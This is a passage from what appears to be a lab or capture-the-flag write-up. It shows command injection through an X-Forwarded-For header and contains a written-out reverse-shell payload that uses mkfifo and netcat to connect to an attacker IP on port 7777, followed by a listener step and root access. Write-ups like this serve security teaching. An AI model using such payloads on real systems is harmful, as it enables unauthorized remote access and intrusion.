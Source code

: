So we need to change the payload as this one:

{% code overflow="wrap" %}
```
X-Forwarded-For: ok;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.8.61.24 7777 >/tmp/f;echo ok
```
{% endcode %}

To reach this result we need to send IP formatted as below:

<figure><img src="../../.gitbook/assets/image (517).png" alt=""><figcaption></figcaption></figure>

On victim machine we obtain the payload reflected inside `logged` file:

<figure><img src="../../.gitbook/assets/image (518).png" alt=""><figcaption></figcaption></figure>

We put the Kali listen on port 7777:

<figure><img src="../../.gitbook/assets/image (519).png" alt=""><figcaption></figcaption></figure>

Enjoy the root! :clap:
